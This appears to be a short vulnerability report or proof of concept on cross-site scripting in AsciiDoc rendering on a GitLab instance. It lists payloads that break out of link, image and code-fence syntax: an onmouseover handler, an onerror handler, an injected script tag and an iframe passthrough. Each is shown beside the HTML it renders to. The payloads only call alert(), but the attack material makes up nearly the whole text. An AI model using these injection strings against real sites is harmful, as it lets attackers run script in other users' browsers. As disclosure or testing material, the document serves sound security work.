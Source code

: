 ++++
<iframe src="..."></iframe>
++++

link:asd&colon;bla"onmouseover="alert(1)[KLIK HIER]
link:asd&#x3a bla"onmouseover="alert(1)[KLIK HIER2]
  Results in: <a onmouseover="alert(1)" href="bla">KLIK HIER</a>
image:https://gitlab-a.ing.net/fake.png[Alt text" onerror="alert(7)]
  Results in: <img onerror="alert(7)" alt="Alt text" src="https://gitlab-a.ing.net/fake.png">
```blaat"><script>alert(3)</script>
  Results in: <pre lang="blaat"><script>alert(3)</script>"&gt;<code></code></pre>
